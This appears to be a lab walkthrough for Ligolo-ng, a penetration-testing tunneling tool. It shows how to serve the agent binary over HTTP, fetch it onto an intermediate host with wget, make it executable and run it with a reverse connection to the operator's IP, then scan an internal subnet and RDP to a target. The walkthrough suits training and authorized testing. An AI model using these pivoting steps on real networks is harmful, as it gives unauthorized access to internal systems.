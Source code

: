 ### **Ligolo-ng Overview and Usage Guide**

**Ligolo-ng** is a **simple**, **lightweight**, and **fast** tunneling tool designed for penetration testers. It enables the creation of tunnels over reverse TCP/TLS connections using a **TUN interface** — eliminating the need for a SOCKS proxy.

🔗 GitHub Repo: https://github.com/nicocha30/ligolo-ng

📦 Download Server (Proxy) and Agent: [Ligolo-ng v0.8 Releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8)

Lab Setup:

![image](https://github.com/user-attachments/assets/d4cb2435-9821-45da-bc24-c080fee8f780)


--
### 🖥️ **Running the Ligolo-ng Server (Proxy)**

1. **Unzip the downloaded release.**
2. **Run the proxy with a self-signed certificate:**

```jsx
./proxy --selfcert
```

![image](https://github.com/user-attachments/assets/dff88f9e-c4e2-4484-8636-91f21e4e7cbd)


### 🌐 **Serving the Agent to the Intermediate Machine**

1. **Start a simple HTTP server on your local machine to serve the agent file:**

```jsx
python -m http.server --bind 192.168.188.130 8888
```

![image](https://github.com/user-attachments/assets/c073ea31-ff61-4077-ba06-5dacf381a8b8)


### 📥 **Deploy the Agent to the Intermediate Machine**

1. **SSH into the intermediate machine:**
2. Download the agent file via `wget`:

```jsx
ssh [shankar@192.168.188.135](mailto:shankar@192.168.188.135)
wget http://192.168.188.130:8888/agent
```

![image](https://github.com/user-attachments/assets/f03ed78c-e65b-40e4-bc0e-c4f821074315)


### ▶️ **Running the Agent**

1. **Make the agent executable and run it:**

```jsx
chmod +x agent
./agent --connect 192.168.188.130:11601 -ignore-cert
```

![image](https://github.com/user-attachments/assets/e6dadf33-a4ec-4d40-aaf3-addb727f4837)


### 🧭 **Network Discovery**

1. **Check the IP address of the intermediate machine:**

```jsx
ifconfig
```

![image](https://github.com/user-attachments/assets/27d93758-dbeb-4820-910a-8009d83036c8)


2. Enumerate the target network (e.g., `192.168.11.0/24`):

```jsx
sudo netdiscover -i ens37 -r 192.168.11.0/24
```

![image](https://github.com/user-attachments/assets/3cf76d44-6393-4a7b-b209-bf5ec7179570)


### 🖥️ **Remote Desktop to the Target**

1. **Use Remmina (or any RDP client) to connect to the target system:**

```jsx
remmina -c rdp://john@192.168.11.131
```

![image](https://github.com/user-attachments/assets/1e54e495-83b1-4df5-9763-8a762b9d9083)

issue : 

error: unable to start tunnel: file exists

<img width="972" height="574" alt="image" src="https://github.com/user-attachments/assets/2e69bf38-e568-4751-b2b9-5150ef19c386" />


    ip link show

    sudo ip link delete <Interface name>

